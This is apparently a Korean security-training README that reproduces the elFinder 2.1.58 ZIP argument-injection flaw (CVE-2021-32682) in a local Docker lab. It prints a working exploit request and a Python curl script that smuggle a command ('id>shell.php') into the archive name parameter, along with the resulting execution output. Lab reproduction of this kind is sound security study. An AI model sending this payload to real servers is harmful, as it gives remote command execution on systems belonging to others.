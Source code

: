 # elFinder ZIP 인자 주입 취약점으로 인한 Command Injection (CVE-2021-32682)

> 화이트햇 스쿨 3기 (35반) - [함주혁 (@shinyColumn)](https://github.com/shinyColumn)

* elFinder는 jQuery UI 기반의 웹 오픈소스 파일 관리자입니다.
* elFinder 2.1.58 이하 버전에서 ZIP 아카이브 처리 과정 중 인자 주입 취약점이 발견되었습니다.
* 공격자는 최소한의 구성으로도 elFinder PHP Connector를 호스팅하는 서버에서 임의의 명령을 실행할 수 있습니다.

<br/>

### 환경 구성 및 실행

1. 다음 명령어로 elFinder 2.1.58을 실행합니다.

```
docker compose up -d
```

2. 서버 시작 후 elFinder의 메인 페이지를 `http://127.0.0.1:8080`에서 확인할 수 있습니다.

<br/>

### 취약점 재현

취약점 재현을 위하여 먼저 두 개의 파일을 만들어야 합니다.

`1.txt` 파일을 생성합니다.

![image](./1.png)

해당 파일을 ZIP 포멧으로 압축한 후, 파일 이름을 `2.zip`으로 변경합니다.

![image](./2.png)

`1.txt`와 `2.zip`을 확인합니다.

![image](./3.png)

다음 HTTP request를 전송합니다.

```
GET /php/connector.minimal.php?cmd=archive&name=-TvTT=id>shell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://localhost.lan:8080/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Connection: close
```

다음과 같은 python 코드를 통해 request를 전송할 수 있습니다.

```python
import subprocess

cmd = '''
curl -X GET "http://127.0.0.1:8080/php/connector.minimal.php?cmd=archive&name=-TvTT=id%3Eshell.php%20%23%20a.zip&target=l1_Lw&targets%5B1%5D=l1_Mi56aXA&targets%5B0%5D=l1_MS50eHQ&type=application%2Fzip"   -H "Host: 127.0.0.1:8080"   -H "Accept: application/json, text/javascript, */*; q=0.01"   -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36"   -H "X-Requested-With: XMLHttpRequest"   -H "Referer: http://127.0.0.1:8080/"   -H "Accept-Encoding: gzip, deflate"   -H "Accept-Language: en-US,en;q=0.9"   -H "Connection: close"
'''

subprocess.run(cmd, shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
```

해당 request에는 다음과 같은 정보가 포함되어 있습니다.

* `id>shell.php`로 명령어를 실행하고 출력을 저장합니다.
* base64 디코딩 시 `target[0]`의 값 `MS50eHQ`는 `1.txt`, `target[1]`의 값 `Mi56aXA`는 `2.zip`을 의미합니다.

request 전송 이후 `http://127.0.0.1:8080/#elf_l1_Lw`에서 `shell.php`를 확인합니다.

![image](./4.png)

`shell.php`를 열어 명령어가 실행된 결과를 확인합니다.

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
